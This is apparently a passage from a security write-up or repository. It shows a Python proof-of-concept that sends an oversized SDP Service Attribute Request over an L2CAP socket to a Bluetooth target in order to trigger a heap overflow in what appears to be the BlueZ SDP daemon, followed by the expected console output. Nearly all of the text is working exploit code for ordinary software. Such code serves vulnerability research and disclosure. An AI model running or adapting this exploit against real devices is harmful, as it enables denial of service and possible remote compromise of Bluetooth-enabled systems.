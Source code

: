 ```python
    exit()
# the service from which we want to request attributes (GAP)
SERVICE_REC_HANDLE = 0x00010001
target = args['TARGET']
mtu = 65535
attrcount = 1000 # how often to request the attribute
context.endian = 'big'
def sdppacket(handle, attr):
    pkt = ""
    pkt += p32(handle) # handle
    pkt += p16(0xFFFF) # max_rsp_size
    # contains an attribute sequence with the length describing the attributes being 16 bit long
    # see extract_des function in line 113 of src/sdpd-request.c
    pkt += p8(0x36)         # DTD (seq_type SDP_SEQ16)
    pkt += p16(len(attr))   # seq size, 16 bit according to DTD
    # attributes
    pkt += attr
    pkt += p8(0x00) # Cstate len
    pduhdr = ""
    pduhdr += p8(0x04) # pdu_id 0x04 -> SVC_ATTR_REQ
    pduhdr += p16(0x0000) # tid
    pduhdr += p16(len(pkt)) # plen
    return pduhdr + pkt
if __name__ == '__main__':
    log.info('Creating L2CAP socket')
    sock = bluetooth.BluetoothSocket(bluetooth.L2CAP)
    bluetooth.set_l2cap_mtu(sock, mtu)
    log.info('Connecting to target')
    sock.connect((target, 1))
    # the attribute we want to request (multiple times)
    # to create the largest response possible, we request a
    # range of attributes at once.
    # for more control during exploitation, it would also be possible to request
    # single attributes.
    attr = p8(0x0A) # data type (SDP_UINT_32)
    attr += p16(0x0000) # attribute id start
    attr += p16(0xFFFE) # attribute id end
    sdp = sdppacket(SERVICE_REC_HANDLE, attr*attrcount)
    log.info("packet length: %d bytes" % len(sdp))
    log.info('Triggering heap overflow...')
    sock.send(sdp)
```

If everything happens as expected, we shall get a similar output to this:

```dump
[*] Creating L2CAP socket
[*] Connecting to target
[*] packet length: 5015 bytes
[*] Triggering heap overflow...
```
